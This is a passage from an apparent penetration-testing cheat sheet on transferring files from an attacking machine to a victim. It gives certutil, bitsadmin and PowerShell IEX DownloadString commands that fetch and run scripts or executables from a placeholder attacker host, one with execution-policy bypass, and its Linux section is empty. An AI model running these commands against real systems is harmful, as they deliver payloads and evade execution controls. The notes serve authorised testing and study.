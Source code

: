#  Transferring Files

In many engagements you will need to be able to copy files between the victim machine and attacking machine.  This section outlines a number of common methods for transferring files for both Windows and Linux.  Note that this will usually rely on having the necessary files hosted on a webserver. This can be achieved by using python3 to create a temporary web server to host files on the attacker machine:
`python3 -m http.server 80`

## Windows 

### CertUtil.exe

CertUtil can be used to download files from a web server using the following command:

`certutil -urlcache -split -f "http://ip-addr:port/NameOfHostedFile" <output-file-name>`

### Powershell

Powershell can also be used to dowload and execute powershell scripts on a host:

`powershell IEX(New-Object Net.WebClient).DownloadString('http://<IPAddress>:<Port>/PowershellScript.ps1')`

Powershell Download and Execute script with execution bypass and Powershell Version 2:

`powershell -Version 2 -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString('http://<IPAddress>:<Port>/PowershellScript.ps1')`

### BITS Admin

`cmd.exe /c "bitsadmin /transfer myjob /download /priority high http://<ip address>:<port>/FileToTransfer.exe C:\Path\ExeOutputName.exe & start acrev.exe"`


## Linux
